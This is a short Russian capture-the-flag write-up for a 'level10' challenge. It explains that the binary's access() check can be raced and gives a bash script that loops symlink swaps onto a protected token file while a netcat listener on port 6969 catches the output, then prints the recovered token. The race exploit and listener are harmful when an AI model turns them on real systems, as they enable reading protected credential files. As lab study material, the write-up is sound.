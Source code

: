 В папке исполняемый файл и token

Через ltrace узнаем, что в коде используется команда access. Она уязвима при многократном применении

#!/bin/bash
for i in {1..100}; do ln -sf /tmp/test /tmp/exploit; ln -sf /home/user/level10/token /tmp/exploit; done &
for i in {1..100}; do ./level10 /tmp/exploit 127.0.0.1; done &
for i in {1..100}; do nc -lk 6969; done

token: feulo4b72j7edeahuete3no7c